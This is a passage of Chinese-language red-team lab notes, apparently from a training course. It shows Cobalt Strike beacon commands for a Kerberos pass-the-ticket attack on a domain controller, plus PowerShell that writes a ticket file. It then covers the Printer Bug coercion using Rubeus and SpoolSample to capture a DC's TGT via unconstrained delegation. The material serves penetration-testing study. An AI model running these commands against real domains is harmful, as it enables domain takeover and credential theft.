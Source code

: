     doIFZz [...snip...] 5JTw==


[*] Ticket cache size: 1
```


将 base64 解码后的字符串写入.kirbi攻击机器上的文件，创建一个登录session，使用ptt（pass the ticket）访问DC
```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 16:49:25   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/21/2021 11:20:15   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     02/17/2021 18:50:37   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/09/2021 10:26:16   pagefile.sys
```



用powershell根据tgt制作ticket
```
[IO.File]::WriteAllBytes("绝对路径\TGS\ticket.kirbi", [Convert]::FromBase64String("得到的base64"))
```

# The "Printer Bug"

如果一台机器配置了非约束委派（比如srv-1），可以利用Printer Bug强制任何机器（包括DC）向这台机器进行身份验证，从而使得srv-1获得DC的tgt

方法步骤：

1. 在srv-1上开启监听
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:DC-2$ /interval:10 /nowrap

[*] Action: TGT Monitoring
[*] Target user     : DC-2$
[*] Monitoring every 10 seconds for new TGTs
```

2. 在WKSTN-1使用SpoolSample.exe强制dc-2这台机器向srv-1进行身份验证
```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-2 srv-1
